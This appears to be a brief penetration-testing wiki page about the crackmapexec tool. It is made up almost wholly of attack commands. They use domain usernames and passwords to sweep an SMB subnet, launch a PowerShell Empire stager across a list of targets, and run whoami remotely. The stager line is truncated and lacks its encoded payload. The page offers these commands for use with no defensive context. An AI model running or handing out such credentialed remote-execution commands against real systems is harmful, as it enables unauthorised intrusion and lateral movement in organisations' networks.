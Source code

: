 ```yaml
---
description: A basic wiki to use different alias and attributes of crackmapexec
---
```


# Crackmapexec

### Crackmapexec Usage

```text
root@kali:/usr/share/doc/python-impacket/examples
crackmapexec smb 10.10.5.0/24 -d DOMAIN -u JOHN.CARPENTER -p Hastings1066
```

### Used for Power shell stager with empire

```text
crackmapexec smb /home/osboxes/Documents/targets.txt -d ADMDUB -u PKELLY -p 'Soundgarden.1' -x 'powershell -noP -sta -w 1 -enc
```

### Whoami Command

```text
crackmapexec smb /home/osboxes/Documents/targets.txt -d ADMDUB -u PKELLY -p 'Soundgarden.1' -x whoami
```

### References:

* [https://github.com/byt3bl33d3r/CrackMapExec/wiki/SMB-Command-Reference](https://github.com/byt3bl33d3r/CrackMapExec/wiki/SMB-Command-Reference)
* [https://github.com/byt3bl33d3r/CrackMapExec/wiki/Target-Formats](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Target-Formats)
* [https://github.com/byt3bl33d3r/CrackMapExec/wiki/Command-Execution](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Command-Execution)
* [https://github.com/byt3bl33d3r/CrackMapExec/wiki/Getting-Shells-101](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Getting-Shells-101)

